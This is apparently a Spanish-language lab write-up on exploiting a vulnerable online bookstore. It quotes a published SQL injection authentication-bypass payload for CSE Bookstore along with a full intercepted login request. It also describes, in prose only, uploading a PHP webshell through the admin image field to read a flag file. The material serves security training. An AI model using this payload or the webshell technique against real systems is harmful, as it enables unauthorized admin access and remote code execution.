 ```yaml
---
layout: apunte
title: "15. Vulnerable and Outdated Components - Lab"
---
```


1. Navegamos a la página dada.
   ![](/apuntes/img/Pasted image 20251011134021.png)
2. Buscamos por aplicaciones de tienda de libros (bookstore application):
   ![](/apuntes/img/Pasted image 20251011134917.png)
3. El código que encontramos tiene ejemplo tanto por web como usando Burp Suite:
   ```bash
# Exploit Title: CSE Bookstore Authentication Bypass
# Date: 27/10/2020
# Exploit Author: Alper Basaran
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Windows 10 Enterprise 1909


CSE Bookstore is vulnerable to an authentication bypass vulnerability on the admin panel. 
By default the admin panel is located at /admin.php and the administrator interface can be accessed by unauthorized users exploiting the SQL injection vulnerability.

Payload: 
Name: admin
Pass: %' or '1'='1 

Sample BurpSuite intercept:

POST /bookstore/admin_verify.php HTTP/1.1
Host: 192.168.20.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://192.168.20.131
Connection: close
Referer: http://192.168.20.131/bookstore/admin.php
Cookie: PHPSESSID=hmqnib0ihkvo235jor7mpfoupv
Upgrade-Insecure-Requests: 1

name=admin&pass=%25%27+or+%271%27%3D%271&submit=Submit+Query
```

4. Probamos:
   ![](/apuntes/img/Pasted image 20251011135154.png)
5. La contraseña funciona:
   ![](/apuntes/img/Pasted image 20251011135812.png)
6. Buscamos más vulnerabilidades, ya que necesitamos acceder a `/opt/flag.txt`.
   ![](/apuntes/img/Pasted image 20251011140737.png)
7. El ejecutable nos lanza un error:
   ![](/apuntes/img/Pasted image 20251011143426.png)
8. Como el código no funciona a pesar de modificarlo lo leemos y vemos que está insertando una webshell en la imagen, por lo que vamos a hacerlo manualmente desde la página vulnerada de admin:
   ![](/apuntes/img/Pasted image 20251011142510.png)
9. Activamos Burp Suite:
   ![](/apuntes/img/Pasted image 20251011143810.png)
10. Cambiamos el valor de la imagen:
    ![](/apuntes/img/Pasted image 20251011144637.png)
11. Vemos desde donde se están cargando las fotos:
   ![](/apuntes/img/Pasted image 20251011143332.png)
12. Intentamos cargar la consola php:
    ![](/apuntes/img/Pasted image 20251011144924.png)
13. Obtenemos la flag
    ![](/apuntes/img/Pasted image 20251011145025.png)

